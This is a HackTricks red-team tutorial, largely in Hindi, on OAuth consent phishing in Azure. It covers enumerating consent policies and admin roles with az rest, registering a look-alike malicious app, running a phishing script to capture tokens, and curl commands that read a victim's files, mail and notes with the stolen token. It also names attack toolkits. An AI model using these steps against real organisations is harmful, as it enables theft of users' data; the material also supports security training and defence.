

# Az - OAuth Apps Phishing


Learn & practice AWS Hacking:[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)\
Learn & practice GCP Hacking: [**HackTricks Training GCP Red Team Expert (GRTE)**](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>


## OAuth App Phishing

**Azure Applications** उन अनुमतियों के साथ कॉन्फ़िगर की जाती हैं जिनका उपयोग वे तब कर सकेंगी जब एक उपयोगकर्ता एप्लिकेशन की सहमति देता है (जैसे कि निर्देशिका को सूचीबद्ध करना, फ़ाइलों तक पहुँच प्राप्त करना, या अन्य क्रियाएँ करना)। ध्यान दें कि एप्लिकेशन उपयोगकर्ता की ओर से होगा, इसलिए भले ही ऐप प्रशासनिक अनुमतियों के लिए पूछ सकता है, यदि **उपयोगकर्ता सहमति नहीं देता है**, तो ऐप **प्रशासनिक क्रियाएँ नहीं कर सकेगा**।

### App consent permissions

डिफ़ॉल्ट रूप से कोई भी **उपयोगकर्ता ऐप्स को सहमति दे सकता है**, हालाँकि इसे इस प्रकार कॉन्फ़िगर किया जा सकता है कि उपयोगकर्ता केवल **चयनित अनुमतियों के लिए सत्यापित प्रकाशकों के ऐप्स पर सहमति दे सकें** या यहां तक कि **अनुमति को हटाने** के लिए उपयोगकर्ताओं को एप्लिकेशन पर सहमति देने से रोक सकें।

<figure><figcaption></figcaption></figure>

यदि उपयोगकर्ता सहमति नहीं दे सकते हैं, तो **व्यवस्थापक** जैसे `GA`, `Application Administrator` या `Cloud Application` `Administrator` उन **एप्लिकेशनों पर सहमति दे सकते हैं** जिनका उपयोग उपयोगकर्ता कर सकेंगे।

इसके अलावा, यदि उपयोगकर्ता केवल **कम जोखिम** वाली अनुमतियों वाले ऐप्स पर सहमति दे सकते हैं, तो ये अनुमतियाँ डिफ़ॉल्ट रूप से **openid**, **profile**, **email**, **User.Read** और **offline\_access** हैं, हालाँकि इस सूची में **अधिक जोड़ना** संभव है।

और यदि वे सभी ऐप्स पर सहमति दे सकते हैं, तो वे सभी ऐप्स पर सहमति दे सकते हैं।

### 2 Types of attacks

* **Unauthenticated**: एक बाहरी खाते से **कम जोखिम वाली अनुमतियों** `User.Read` और `User.ReadBasic.All` के साथ एक एप्लिकेशन बनाएं, एक उपयोगकर्ता को फ़िश करें, और आप निर्देशिका की जानकारी तक पहुँच प्राप्त कर सकेंगे।
* यह आवश्यक है कि फ़िश किया गया उपयोगकर्ता **बाहरी टेनेट से OAuth ऐप्स को स्वीकार करने में सक्षम हो**।
* यदि फ़िश किया गया उपयोगकर्ता कोई ऐसा व्यवस्थापक है जो **किसी भी ऐप को किसी भी अनुमतियों के साथ सहमति दे सकता है**, तो एप्लिकेशन भी **विशिष्ट अनुमतियों के लिए अनुरोध कर सकता है**।
* **Authenticated**: पर्याप्त विशेषाधिकारों के साथ एक प्रिंसिपल को समझौता करने के बाद, **खाते के अंदर एक एप्लिकेशन बनाएं** और **फ़िश** करें कुछ **विशिष्ट** उपयोगकर्ता जो विशिष्ट OAuth अनुमतियों को स्वीकार कर सकते हैं।
* इस मामले में आप पहले से ही निर्देशिका की जानकारी तक पहुँच प्राप्त कर चुके हैं, इसलिए अनुमति `User.ReadBasic.All` अब दिलचस्प नहीं है।
* आप संभवतः **अनुमतियों में रुचि रखते हैं जिन्हें एक व्यवस्थापक को प्रदान करना आवश्यक है**, क्योंकि सामान्य उपयोगकर्ता OAuth ऐप्स को कोई अनुमति नहीं दे सकता, इसलिए आपको **केवल उन उपयोगकर्ताओं को फ़िश करना होगा** (बाद में किन भूमिकाओं/अनुमतियों से यह विशेषाधिकार मिलता है, इस पर अधिक जानकारी)।

### Users are allowed to consent

ध्यान दें कि आपको यह कमांड टेनेट के अंदर एक उपयोगकर्ता से निष्पादित करनी होगी, आप बाहरी टेनेट से इस कॉन्फ़िगरेशन को नहीं ढूंढ सकते। निम्नलिखित CLI आपको उपयोगकर्ताओं की अनुमतियों को समझने में मदद कर सकता है:


```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/authorizationPolicy"
```


* उपयोगकर्ता सभी ऐप्स के लिए सहमति दे सकते हैं: यदि **`permissionGrantPoliciesAssigned`** के अंदर आप पा सकते हैं: `ManagePermissionGrantsForSelf.microsoft-user-default-legacy` तो उपयोगकर्ता हर एप्लिकेशन को स्वीकार कर सकते हैं।
* उपयोगकर्ता सत्यापित प्रकाशकों या आपके संगठन के ऐप्स के लिए सहमति दे सकते हैं, लेकिन केवल उन अनुमतियों के लिए जो आप चुनते हैं: यदि **`permissionGrantPoliciesAssigned`** के अंदर आप पा सकते हैं: `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team` तो उपयोगकर्ता हर एप्लिकेशन को स्वीकार कर सकते हैं।
* **उपयोगकर्ता सहमति अक्षम करें**: यदि **`permissionGrantPoliciesAssigned`** के अंदर आप केवल पा सकते हैं: `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-chat` और `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team` तो उपयोगकर्ता किसी भी चीज़ पर सहमति नहीं दे सकते।

यहां प्रत्येक टिप्पणी की गई नीति का अर्थ जानना संभव है:


```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/permissionGrantPolicies"
```


### **ऐप्लिकेशन प्रशासक**

उन उपयोगकर्ताओं की जांच करें जिन्हें ऐप्लिकेशन प्रशासक माना जाता है (नए ऐप्लिकेशन स्वीकार कर सकते हैं):


```bash
# Get list of roles
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles"

# Get Global Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1b2256f9-46c1-4fc2-a125-5b2f51bb43b7/members"

# Get Application Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1e92c3b7-2363-4826-93a6-7f7a5b53e7f9/members"

# Get Cloud Applications Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/0d601d27-7b9c-476f-8134-8e7cd6744f02/members"
```


## **हमले का प्रवाह अवलोकन**

हमला कई चरणों में एक सामान्य कंपनी को लक्षित करता है। यह इस प्रकार हो सकता है:

1. **डोमेन पंजीकरण और एप्लिकेशन होस्टिंग**: हमलावर एक ऐसा डोमेन पंजीकृत करता है जो एक विश्वसनीय साइट के समान हो, उदाहरण के लिए, "safedomainlogin.com"। इस डोमेन के तहत, एक उपडोमेन बनाया जाता है (जैसे, "companyname.safedomainlogin.com") जो एक एप्लिकेशन को होस्ट करता है जिसे प्राधिकरण कोड कैप्चर करने और एक्सेस टोकन अनुरोध करने के लिए डिज़ाइन किया गया है।
2. **Azure AD में एप्लिकेशन पंजीकरण**: फिर हमलावर अपने Azure AD टेनेट में एक मल्टी-टेनेंट एप्लिकेशन पंजीकृत करता है, जिसका नाम लक्षित कंपनी के नाम पर रखा जाता है ताकि यह वैध प्रतीत हो। वे एप्लिकेशन के रीडायरेक्ट URL को उस उपडोमेन की ओर इंगित करते हैं जो दुर्भावनापूर्ण एप्लिकेशन को होस्ट करता है।
3. **अनुमतियों की सेटिंग**: हमलावर एप्लिकेशन को विभिन्न API अनुमतियों के साथ सेट करता है (जैसे, `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`)। ये अनुमतियाँ, एक बार उपयोगकर्ता द्वारा दी गई, हमलावर को उपयोगकर्ता की ओर से संवेदनशील जानकारी निकालने की अनुमति देती हैं।
4. **दुर्भावनापूर्ण लिंक वितरित करना**: हमलावर एक लिंक तैयार करता है जिसमें दुर्भावनापूर्ण एप्लिकेशन का क्लाइंट आईडी होता है और इसे लक्षित उपयोगकर्ताओं के साथ साझा करता है, उन्हें सहमति देने के लिए धोखा देता है।

## उदाहरण हमला

1. एक **नया एप्लिकेशन** पंजीकृत करें। यह केवल वर्तमान निर्देशिका के लिए हो सकता है यदि आप हमले की गई निर्देशिका से एक उपयोगकर्ता का उपयोग कर रहे हैं या किसी भी निर्देशिका के लिए यदि यह एक बाहरी हमला है (जैसे, निम्नलिखित छवि में)।
1. **रीडायरेक्ट URI** को भी उस अपेक्षित URL पर सेट करें जहाँ आप टोकन प्राप्त करने के लिए कोड प्राप्त करना चाहते हैं (`http://localhost:8000/callback` डिफ़ॉल्ट रूप से)।

<figure><figcaption></figcaption></figure>

2. फिर एक एप्लिकेशन सीक्रेट बनाएं:

<figure><figcaption></figcaption></figure>

3. API अनुमतियाँ चुनें (जैसे, `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`)

<figure><figcaption></figcaption></figure>

4. **वेब पृष्ठ निष्पादित करें (**[**azure\_oauth\_phishing\_example**](https://github.com/carlospolop/azure_oauth_phishing_example)**)** जो अनुमतियों के लिए पूछता है:


```bash
# From https://github.com/carlospolop/azure_oauth_phishing_example
python3 azure_oauth_phishing_example.py --client-secret <client-secret> --client-id <client-id> --scopes "email,Files.ReadWrite.All,Mail.Read,Notes.Read.All,offline_access,openid,profile,User.Read"
```


5. **शिकार को URL भेजें**
1. इस मामले में `http://localhost:8000`
6. **शिकार** को **प्रॉम्प्ट स्वीकार करना होगा:**

<figure><figcaption></figcaption></figure>

7. **अनुरोधित अनुमतियों** तक पहुँचने के लिए **एक्सेस टोकन का उपयोग करें**:
```bash
export ACCESS_TOKEN=<ACCESS_TOKEN>

# List drive files
curl -X GET \
https://graph.microsoft.com/v1.0/me/drive/root/children \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List eails
curl -X GET \
https://graph.microsoft.com/v1.0/me/messages \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List notes
curl -X GET \
https://graph.microsoft.com/v1.0/me/onenote/notebooks \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"
```
## अन्य उपकरण

* [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer)**:** इसे कॉन्फ़िगर करने के लिए [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) पर जाएं।
* [**O365-Attack-Toolkit**](https://github.com/mdsecactivebreach/o365-attack-toolkit)

## पोस्ट-एक्सप्लॉइटेशन

### फ़िशिंग पोस्ट-एक्सप्लॉइटेशन

अनुरोधित अनुमतियों के आधार पर, आप **टेनेंट के विभिन्न डेटा तक पहुँचने में सक्षम हो सकते हैं** (उपयोगकर्ताओं, समूहों की सूची... या यहां तक कि सेटिंग्स को संशोधित करना) और **उपयोगकर्ता की जानकारी** (फाइलें, नोट्स, ईमेल...)। फिर, आप इन अनुमतियों का उपयोग उन क्रियाओं को करने के लिए कर सकते हैं।

### एप्लिकेशन पोस्ट एक्सप्लॉइटेशन

पृष्ठ के एप्लिकेशन और सेवा प्रिंसिपल अनुभागों की जांच करें:


[az-entraid-privesc](../az-privilege-escalation/az-entraid-privesc/)


## संदर्भ

* [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
* [https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/)


AWS हैकिंग सीखें और अभ्यास करें:[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)\
GCP हैकिंग सीखें और अभ्यास करें: [**HackTricks Training GCP Red Team Expert (GRTE)**](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>

